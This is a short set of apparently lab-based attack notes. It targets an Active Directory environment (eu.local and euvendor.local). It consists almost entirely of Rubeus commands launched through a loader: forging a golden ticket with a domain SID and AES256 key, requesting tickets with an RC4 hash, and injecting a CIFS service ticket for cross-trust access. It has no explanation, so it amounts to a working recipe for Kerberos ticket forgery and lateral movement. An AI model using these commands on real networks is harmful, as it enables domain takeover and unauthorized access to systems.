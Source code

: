 
Task 

• Using the DA access to eu.local: 
− Access eu-share on euvendor-dc. 
− Access euvendor-net using PowerShell Remoting



```
echo %Pwn% golden
```


```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:Administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /aes256:b3b88f9288b08707eab6d561fefe286c178359bda4d9ed9ea5cb2bd28540075d /ptt
```


```
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /user:Administrator /ldap /service:krbtgt/eu.local /rc4:b96659c7b2109d2e63e6de676d48646c /sid:S-1-5-21-3657428294-2017276338-1274645009 /nowrap
```

```
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /service:CIFS/euvendor-dc.euvendor.local /dc:euvendor-dc.euvendor.local /ptt /ticket:
```

